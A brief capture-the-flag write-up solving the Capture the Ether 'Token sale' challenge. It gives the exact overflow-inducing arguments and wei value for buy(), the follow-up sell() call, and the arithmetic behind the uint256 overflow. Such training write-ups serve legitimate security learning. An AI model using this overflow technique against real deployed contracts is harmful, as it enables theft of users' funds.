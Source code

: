 # Token sale
https://capturetheether.com/challenges/math/token-sale/


1. Call the function "buy" with the argument (115792089237316195423570985008687907853269984665640564039458) and msg.value == 415992086870360064 wei (!).*
2. Call the function "sell" with the argument (1).
3. Contract balance will be 0.415992086870360064 Ether but that's enough to complete the challenge.
!You may repeat step №1 four more times and repeat step №2 with argument (2) to make contract balance 0.07996043435180032 Ether.

*Сalculations:

numTokens - ?
msg.value - ?

uint256 constant PRICE_PER_TOKEN = 1 ether;

function buy(uint256 numTokens) public payable {
        require(msg.value == numTokens * PRICE_PER_TOKEN);

        balanceOf[msg.sender] += numTokens;
}

uint256 max value = 115792089237316195423570985008687907853269984665640564039457584007913129639935
1 ether == 1000000000000000000 wei (10^18)

msg.value == numTokens * PRICE_PER_TOKEN

to cause overflow:
numTokens = (uint256 max value)/10^18 + 1
numTokens = 115792089237316195423570985008687907853269984665640564039458

msg.value = numTokens * 10^18 - (uint256 max value) - 1 
msg.value = 415992086870360064 wei (!)